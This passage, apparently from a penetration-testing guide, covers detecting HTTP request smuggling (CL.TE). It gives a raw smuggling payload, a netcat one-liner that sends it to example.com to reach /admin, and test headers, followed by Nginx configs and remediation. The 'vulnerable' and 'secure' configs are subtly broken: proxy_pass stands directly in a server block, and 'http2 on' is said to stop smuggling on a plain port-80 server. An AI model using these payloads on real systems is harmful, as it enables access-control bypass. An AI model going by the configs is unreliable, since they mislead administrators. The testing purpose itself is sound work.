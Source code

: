      5
     SMUGG
     0

     GET /admin HTTP/1.1
     Host: example.com

     ```
   - Use Netcat:
     ```bash
     echo -e "POST / HTTP/1.1\nHost: example.com\nContent-Length: 0\nTransfer-Encoding: chunked\n\n5\nSMUGG\n0\n\nGET /admin HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
     ```
2. Check responses:
   - Look for smuggled request effects (e.g., `/admin` access).
   - Test: `Content-Length: 6\r\nTransfer-Encoding: chunked\r\n\r\n0\r\n\r\nGET / HTTP/1.1`.
3. Monitor timing:
   - Smuggled requests may cause delays or errors.
4. Use Burp’s HTTP Request Smuggler:
   - Automate CL.TE detection.

**Example Vulnerable Config (Nginx)**:
```
server {
    listen 80;
    proxy_pass http://backend;
}
```
Test: CL.TE payload
Result: Smuggles `/admin` request.

**Example Secure Config (Nginx)**:
```
server {
    listen 80;
    proxy_pass http://backend;
    http2 on; # Enforces strict parsing
}
```
Test: No smuggling.

**Remediation**:
- Normalize headers:
  ```nginx
  proxy_set_header Transfer-Encoding "";
  ```
- Use HTTP/2:
  ```nginx
  http2 on;
  ```

**Tip**: Save smuggling evidence in a report.

### 5. Test for HTTP Request Smuggling (TE.CL)

**Objective**: Verify if Transfer-Encoding and Content-Length mismatches allow request smuggling.
